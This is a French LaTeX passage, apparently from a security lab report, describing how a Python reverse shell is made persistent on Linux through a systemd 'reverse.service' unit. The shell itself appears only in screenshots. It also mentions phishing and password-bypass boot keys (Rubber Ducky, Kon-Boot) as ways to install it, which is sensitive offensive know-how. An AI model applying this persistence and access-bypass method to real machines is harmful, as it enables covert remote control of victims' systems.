  
\includegraphics[width=1\textwidth]{oui/Screens/Reverse-shell/creation-reverse/test.PNG}
  \caption{Test du reverse-shell}
  \label{fig:courbe-tikz}
\end{figure}

Pour rendre notre code persistant, il ne reste plus que la cible le lance au démarrage de session. Pour cela, sur Linux, il existe les .services. Nous allons en créer un qui appelle notre programme Python :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  
\includegraphics[width=0.8\textwidth]{oui/Screens/Reverse-shell/creation-reverse/reverse-service.PNG}
  \caption{reverse.service}
  \label{fig:courbe-tikz}
\end{figure}

\newpage
Il nous reste plus qu'à le rendre actif pour les prochains boot et de redémarrer la machine :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  
\includegraphics[width=0.8\textwidth]{oui/Screens/Reverse-shell/creation-reverse/reverse-service-enable.PNG}
  \caption{reverse.service en enable}
  \label{fig:courbe-tikz}
\end{figure}

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  
\includegraphics[width=0.8\textwidth]{oui/Screens/Reverse-shell/creation-reverse/reboot.PNG}
  \caption{Reverse-shell après redémarrage}
  \label{fig:courbe-tikz}
\end{figure}

Nous avons donc dans cette partie recodé un reverse-shell en Python. Il est cependant plus pratique de réaliser, à partir de codes déjà fait, un reverse-shell. En effet, notre code nécessite du phishing ou l'accès physique à la machine pour pouvoir implémenter le code et le lancer à chaque démarrage en automatique. Certains se diraient que l'accès physique à la machine ne servirait à rien car la cible possède un mot de passe pour rentrer dans le système. Cependant, il existe des clés bootables permettant d'outre-passer le mot de passe d'une machine comme par exemple les \textbf{Rubber Ducky} ou les \textbf{Kon-Boot}.

